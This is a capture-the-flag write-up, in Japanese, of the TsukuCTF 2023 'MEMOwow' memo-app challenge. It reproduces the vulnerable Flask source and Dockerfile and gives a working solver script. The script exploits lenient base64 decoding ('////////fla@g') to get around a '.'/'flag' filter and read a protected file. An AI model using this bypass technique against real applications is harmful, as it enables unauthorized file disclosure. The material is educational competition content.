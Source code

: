 # MEMOwow

## 問題文
素晴らしいメモアプリを作ったよ。  
覚える情報量が増えているって？？？  

[http://133.130.100.34:31415](http://133.130.100.34:31415)  

[MEMOwow.zip](files/MEMOwow.zip)  

## 難易度
**medium**  

## 作問にあたって
Base64でエンコードすると攻撃文字列になるXSSなど作りたいなと思っていました(無理)。  
仕方がないので文字列/flagがBase64で作れることを利用して問題にしました。  
もう少し自然なメモアプリにもできましたが、直前の作問で非想定解が怖いため変なメモアプリにしました。  
Base64をPythonで扱う際には、`validate=True`にしましょう。  

## 解法
URLとソースコードが渡される。  
![site1.png](images/site1.png)  
アクセスするとメモを保存できるサイトのようだ。  
![site2.png](images/site2.png)  
メモを送信すると、メモIDが表示される。  
![site3.png](images/site3.png)  
base64されていそうなので、デコードしてみる。  
```bash
$ echo -n 'U2F0b2tpKOODuzPjg7spdg==' | base64 -d
Satoki(・3・)v
```
なんとbase64されているものがメモIDになっているようだ(覚える情報量がメモより増えている)。  
メモの読み取りはこのメモIDを用いるようだ。  
![site4.png](images/site4.png)  
![site5.png](images/site5.png)  
ソースを読むと実装は以下のようになっている。  
```python
~~~
@app.route("/", methods=["GET"])
def index():
    if not "memo" in session:
        session["memo"] = [b"Tsukushi"]
    return render_template("index.html")


@app.route("/write", methods=["GET"])
def write_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("write_get.html")


@app.route("/read", methods=["GET"])
def read_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("read_get.html")


@app.route("/write", methods=["POST"])
def write_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    memo = urllib.parse.unquote_to_bytes(request.get_data()[8:256])
    if len(memo) < 8:
        return abort(403, "これくらいの長さは記憶してください。👻")
    try:
        session["memo"].append(memo)
        if len(session["memo"]) > 5:
            session["memo"].pop(0)
        session.modified = True
        filename = base64.b64encode(memo).decode()
        with open(f"./memo/{filename}", "wb+") as f:
            f.write(memo)
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("write_post.html", id=filename)


@app.route("/read", methods=["POST"])
def read_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    filename = urllib.parse.unquote_to_bytes(request.get_data()[7:]).replace(b"=", b"")
    filename = filename + b"=" * (-len(filename) % 4)
    if (
        (b"." in filename.lower())
        or (b"flag" in filename.lower())
        or (len(filename) < 8 * 1.33)
    ):
        return abort(403, "不正なメモIDです。👻")
    try:
        filename = base64.b64decode(filename)
        if filename not in session["memo"]:
            return abort(403, "メモが見つかりません。👻")
        filename = base64.b64encode(filename).decode()
        with open(f"./memo/{filename}", "rb") as f:
            memo = f.read()
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("read_post.html", id=filename, memo=memo.decode())
~~~
```
`/write`ではなぜか`request.get_data()[8:256]`でメモを取得し、8文字以上であることをチェックした後に`session["memo"]`に追加している。  
さらに、メモをbase64エンコードしたものをファイル名にし、メモをファイルとして保存している。  
そのファイル名をメモIDとしてユーザに返している。  
`/read`ではメモIDを受け取り、base64デコードした結果が`session["memo"]`に入っている場合(自分で作成したメモである場合)のみメモIDをファイル名としてファイルを読み取っている。  
ただし、`.`や`flag`でパストラバーサルやフラグの読み取りはできないようになっている。  
Dockerfileを見ると、読み込み専用で`/var/www/memo/flag`にフラグが書かれているようだ。  
```Dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get -y update --fix-missing && apt-get -y upgrade
RUN apt-get -y install python3 python3-pip

RUN mkdir /var/www
WORKDIR /var/www
COPY ./ ./

RUN pip3 install -r requirements.txt

ENV LANG C.UTF-8

RUN chmod 755 -R /var/www
RUN chmod 777 -R /var/www/memo
RUN chmod 644 /var/www/memo/flag
RUN chmod 644 /var/www/memo/VHN1a3VzaGk=
RUN adduser -u 1000 memowow
USER memowow

CMD ["uwsgi", "--ini", "/var/www/uwsgi.ini"]
```
まずは`session["memo"]`のチェックを無視して、`/var/www/memo/flag`を読み取ることを考える。  
`.`と`flag`を使わずに`flag`ファイルを指定できないかと考えると、一度デコードした後に再度エンコードしていることに気づく。  
入力されたファイル名を使えばよいのに不自然だ(メモアプリ全体が不自然だが)。  
文字列`flag`を含んでいないが、デコードして再度エンコードして`flag`となる入力はないだろうか？  
```bash
$ python
~~~
>>> import base64
>>> base64.b64decode("flag")
b'~V\xa0'
>>> base64.b64decode("fla@g")
b'~V\xa0'
base64.b64encode(base64.b64decode("fla@g"))
b'flag'
```
試すと`fla@g`などbase64に関連しない文字は無視されるようだ。  
これで`flag`ファイルを読み取り先として指定できるが、`session["memo"]`の問題がある。  
base64エンコードした結果がファイル名、つまり`flag`となる必要があるので、文字列`flag`をデコードしたバイト列をメモとして与えてやればよい。  
書き込みは禁止されているので`/var/www/memo/flag`は書き換えられないが`session["memo"]`には追加される。  
これで`flag`ファイルを読み取れるかと思うが、メモには8文字以上の制限がある。  
```bash
>>> base64.b64decode("flag")
b'~V\xa0'
len(base64.b64decode("flag"))
3
```
ソースコードをもう一度読むと`with open(f"./memo/{filename}", "rb") as f:`となっている。  
`open`は`/`がいくつあってもよいので、複数つけて8文字以上となるものにすればよい。  
`Incorrect padding`に注意する。  
```bash
>>> base64.b64decode("////////flag")
b'\xff\xff\xff\xff\xff\xff~V\xa0'
>>> len(base64.b64decode("////////flag"))
9
```
必然的に読み取るファイルも`////////flag`と指定する。  
以下のsolver.pyで行う。  
```python
import re
import base64
import requests

URL = "http://133.130.100.34:31415/"

session = requests.Session()

session.get(f"{URL}")

res = session.post(f"{URL}/write", data={"content": base64.b64decode(b"////////flag")})
print(f"[POST] /write: {res.status_code}")

res = session.post(f"{URL}/read", data={"memoid": "////////fla@g"})
print(f"[POST] /read: {res.status_code}")
flag = re.search("TsukuCTF23{.*?}", res.text)
print(f"[FLAG] {flag.group()}")
```
実行する。  
```bash
$ python solver.py
[POST] /write: 403
[POST] /read: 200
[FLAG] TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
```
flagが得られた。  

## TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
